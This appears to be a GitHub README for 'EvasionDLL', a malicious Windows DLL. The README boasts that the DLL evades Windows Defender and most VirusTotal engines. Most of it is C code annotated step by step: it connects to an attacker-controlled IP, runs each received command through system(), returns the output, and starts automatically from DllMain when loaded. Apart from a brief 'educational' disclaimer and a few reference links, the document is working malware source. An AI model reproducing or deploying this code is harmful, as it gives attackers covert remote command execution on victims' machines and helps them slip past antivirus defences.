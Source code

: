 # EvasionDLL
Malicious DLL used for establishing a Reverse TCP Shell 

## Overview
EvasionDLL is a research-focused project demonstrating how **DLL-based reverse shells** can be used to evade detection. 

---

# Detection Status  
During testing, **Windows 10 and Windows 11 did not flag this DLL as malicious**, allowing it to execute without interference. Standard Windows Defender protections were **bypassed** in a default configuration.  
 
### VirusTotal Scan Results  
Additionally, when uploaded to **VirusTotal**, the file received **only 3 detections out of 72 antivirus engines**, indicating that many security solutions failed to recognize it as a threat. 
![VirusTotal Scan](virus_total.png)

## Understanding the Code

### Winsock Initialization
```c
WSADATA wsa;
if (WSAStartup(MAKEWORD(2,2), &wsa) != 0) {
    printf("WSAStartup failed with error: %d\n", WSAGetLastError());
    return;
}
```
- Initializes **Windows Sockets API (Winsock)** to enable network communication.
- If initialization fails, the function exits.

### Socket Creation
```c
sock = socket(AF_INET, SOCK_STREAM, 0);
if (sock == INVALID_SOCKET) {
    printf("Socket creation failed with error: %d\n", WSAGetLastError());
    WSACleanup();
    return;
}
```
- Creates a **TCP socket** for communication.
- If socket creation fails, the program terminates.

### Connecting to the Remote Server
```c
server.sin_family = AF_INET;
server.sin_port = htons(PORT);
server.sin_addr.s_addr = inet_addr(IP);

if (connect(sock, (struct sockaddr*)&server, sizeof(server)) < 0) {
    printf("Connection failed with error: %d\n", WSAGetLastError());
    closesocket(sock);
    WSACleanup();
    return;
}
```
- Specifies the **attacker-controlled server IP and port**.
- Attempts to establish a **reverse shell connection**.

### Command Execution Loop
```c
bytes_received = recv(sock, buffer, sizeof(buffer), 0);
if (bytes_received == SOCKET_ERROR) {
    printf("Recv failed with error: %d\n", WSAGetLastError());
    break;
}

buffer[bytes_received] = '\0';
system(buffer);  // Execute received commands

bytes_received = send(sock, buffer, bytes_received, 0);
```
- **Receives commands** from the attacker.
- Uses `system(buffer)` to **execute received commands**.
- Sends **command output back to the attacker**.

### DLL Execution Trigger
```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        reverse_shell(); // Execute the reverse shell when the DLL is loaded
    }
    return TRUE;
}
```
- When the DLL is **loaded into a process**, it **automatically** launches the reverse shell.
- This **abuses DLL hijacking or injection** to execute malware.

---

---

## Further Reading
- [MITRE ATT&CK: Execution Techniques](https://attack.mitre.org/techniques/T1059/)
- [Microsoft Security Guidance](https://www.microsoft.com/security/blog/)
- [DLL Injection Explained](https://attack.mitre.org/techniques/T1055/001/)

---


**Disclaimer:** This repository is for **educational and research purposes only**. 
